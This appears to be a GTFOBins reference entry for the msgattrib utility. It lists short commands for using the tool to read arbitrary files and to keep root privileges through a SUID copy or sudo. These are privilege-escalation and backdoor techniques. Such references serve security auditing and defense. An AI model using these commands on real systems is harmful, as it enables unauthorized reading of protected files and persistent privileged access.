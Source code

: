 # GTFOBin: msgattrib

The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
msgattrib -P $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which msgattrib) .

LFILE=file_to_read
./msgattrib -P $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo msgattrib -P $LFILE
```